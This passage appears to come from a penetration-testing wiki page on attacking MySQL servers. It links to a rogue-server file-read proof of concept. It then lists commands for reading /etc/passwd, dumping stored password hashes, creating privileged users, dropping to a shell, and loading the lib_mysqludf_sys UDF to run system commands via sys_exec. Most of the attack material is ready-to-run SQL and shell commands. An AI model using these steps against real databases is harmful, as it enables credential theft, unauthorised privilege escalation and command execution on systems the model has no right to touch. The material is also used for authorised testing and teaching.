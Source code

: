 ```bash
mysql> load data infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';

ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
```

**Initial PoC:** [**https://github.com/allyshka/Rogue-MySql-Server**](https://github.com/allyshka/Rogue-MySql-Server)  
**In this paper you can see a complete description of the attack and even how to extend it to RCE:** [**https://paper.seebug.org/1113/**](https://paper.seebug.org/1113/)  
**Here you can find an overview of the attack:** [**http://russiansecurity.expert/2016/04/20/mysql-connect-file-read/**](http://russiansecurity.expert/2016/04/20/mysql-connect-file-read/)\*\*\*\*

## POST

### Mysql User

It will be very interesting if mysql is running as **root**:

```bash
cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | grep "user"
```

### Privilege escalation

How to:

* Current Level of access
  * mysql&gt;`select user();`
  * mysql&gt;`select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user where user='OUTPUT OF select user()';`
* Access passwords
  * mysql&gt; `use mysql`
  * mysql&gt; `select user,password from user;`
* Create a new user and grant him privileges
  * mysql&gt;`create user test identified by 'test';`
  * mysql&gt; `grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;`
* Break into a shell
  * mysql&gt; `\! cat /etc/passwd`
  * mysql&gt; `\! bash`

### Privilege Escalation via library

You can find **compiled versions** of this **libraries** in sqlmap: `locate lib_mysqludf_sys.so` and `locate lib_mysqludf_sys.dll`Instead of `locate` you can also use `whereis` to search for this libraries inside the host.

#### Linux

```sql
use mysql;
create table npn(line blob);
insert into npn values(load_file('/tmp/lib_mysqludf_sys.so'));
select * from npn into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so';
create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
select sys_exec('id > /tmp/out.txt');
```
